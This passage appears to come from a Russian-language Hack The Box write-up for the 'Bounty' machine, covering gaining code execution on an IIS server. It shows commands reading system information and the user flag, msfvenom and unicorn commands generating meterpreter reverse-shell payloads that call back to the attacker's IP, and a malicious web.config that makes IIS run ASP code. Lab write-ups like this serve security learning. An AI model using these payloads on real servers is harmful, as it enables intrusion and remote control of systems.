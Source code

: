 4\. `wmic OS get OSArchitecture`. Узнаем архитектуру системы:

[![bounty-port80-browser-10.png]({{ "/img/htb/boxes/bounty/bounty-port80-browser-10.png" | relative_url }})]({{ "/img/htb/boxes/bounty/bounty-port80-browser-10.png" | relative_url }})

#### user.txt
5\. `type C:\Users\merlin\Desktop\user.txt`. И даже забираем флаг пользователя:

[![bounty-port80-browser-11.png]({{ "/img/htb/boxes/bounty/bounty-port80-browser-11.png" | relative_url }})]({{ "/img/htb/boxes/bounty/bounty-port80-browser-11.png" | relative_url }})

У нас есть все необходимое, чтобы получить полноценную сессию.

### web.config для RCE [Metasploit] (внутри машины)
Пользуемся msfvenom'ом для генерации нагрузки для PowerShell'а:
```text
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=31337 -f psh --platform windows -a x64 -o sh3ll.ps1
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Final size of psh file: 3241 bytes
Saved as: sh3ll.ps1
```

**[\*] Отступление**

[unicorn](https://github.com/trustedsec/unicorn "trustedsec/unicorn: Unicorn is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory. Based on Matthew Graeber's powershell attacks and the powershell bypass technique presented by David Kennedy (TrustedSec) and Josh Kelly at Defcon 18.")'ом это можно сделать еще проще (создаваемые файлы: `powershell_attack.txt`, `unicorn.rc`):
```text
root@kali:~# python unicorn.py windows/meterpreter/reverse_tcp 10.10.14.14 443
...

root@kali:~# msfconsole -r unicorn.rc -q
...
```

Нацелим web.config на загрузку пейлоада:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<% Response.write("-"&"->") %>

<%
Set rs = CreateObject("WScript.Shell")
```